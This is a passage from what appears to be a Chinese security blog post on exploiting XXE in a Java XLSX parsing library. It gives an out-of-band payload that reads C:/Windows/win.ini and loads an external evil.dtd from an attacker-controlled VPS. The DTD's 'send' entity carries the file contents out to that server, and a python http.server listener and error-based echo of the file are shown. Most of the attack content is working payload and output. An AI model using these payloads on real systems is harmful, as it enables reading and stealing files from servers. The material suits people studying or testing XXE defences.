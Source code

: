 注意需要加上协议`http://`，不然报这个错：
```java
com.monitorjbl.xlsx.exceptions.ParseException: java.net.MalformedURLException: no protocol: 200mdnysyezj20ym2mugaoxxeokm8b.burpcollaborator.net/?%xxe;
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201116171054619.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70#pic_center)

更多信息参考：
https://ca0y1h.top/Web_security/basic_learning/20.xxe%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/

发现`%xxe`并不能被替换成上面win.ini的结果，于是尝试其他的payload：
```
<!DOCTYPE foo [
    <!ENTITY % file SYSTEM "file:///C:/Windows/win.ini">
    <!ENTITY  % xxe SYSTEM "http://49.x.y.z:8888/evil.dtd" >
    %xxe;
    %send;
]>
```
这样，先请求
```
http://49.x.y.z:8888/evil.dtd
```
然后在vps上的8888端口开启http服务：
```
python3 -m http.server 8888
```
其中evil.dtd的内容为：
```
<!ENTITY % all
"<!ENTITY &#x25; send SYSTEM '<http://49.x.y.z:8888/?%file;>'>"
>
%all;
```
（这里只定义了all变量，而file变量是我们在xlsx的xml文件中作为payload传过去的）
这里比较特殊，因为win.ini文件的开头就是`;`，导致拼接出来的url被报错了，然后可以在报错中被回显出来：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201116174018259.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70#pic_center)
所以我本以为文件的结果会通过url传到vps上，但是貌似这里可以直接回显出来（不过还是至少需要一次外联请求evil.dtd）
尝试读一下其他的文件：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201116174401692.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70#pic_center)


XXE利用里，读文件的事儿很多，
比如：
```
 The declaration for the entity "send" must end with '>'.
 The reference to entity "type" must end with the ';' delimiter.
```

文件内容有`#`或者`=`，则会出现
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201116182655532.png#pic_center)


注意这里的dtd文件一定要写出那样，如果把<> 去掉，变成这样
```xml
<!ENTITY % all
"<!ENTITY &#x25; send SYSTEM '<http://49.x.y.z:8888/?%file;>'>"
>
%all;
```
则会报错：
```
java.net.MalformedURLException: Illegal character in URL
```
且不会包报错信息回显出来。
